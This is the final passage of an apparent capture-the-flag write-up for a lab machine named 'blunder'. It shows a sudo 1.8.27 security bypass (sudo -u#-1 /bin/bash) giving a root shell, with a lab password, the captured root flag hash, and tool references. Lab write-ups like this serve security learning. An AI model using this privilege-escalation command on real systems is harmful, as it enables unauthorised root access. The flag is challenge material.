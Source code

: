 ```
There is NO WARRANTY, to the extent permitted by law.
```
we found sudo version is exploitable sudo 1.8.27 - Security Bypass - https://www.exploit-db.com/exploits/47502
```
hugo@blunder:~$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
Password: Password120

root@blunder:/home/hugo# cd /root
root@blunder:/root# cat root.txt               
cat root.txt                                                                                            
e4baf3bc79ec7c06593780e0cdba409d                                                                        
root@blunder:/root#  
```
### References
- ffuf https://github.com/ffuf/ffuf
- cewl https://tools.kali.org/password-attacks/cewl
- Creating Custom Wordlists for Targeted Attacks with CeWL http://stuffjasondoes.com/2018/07/18/creating-custom-wordlists-for-targeted-attacks-with-cewl/
- sudo 1.8.27 - Security Bypass - https://www.exploit-db.com/exploits/47502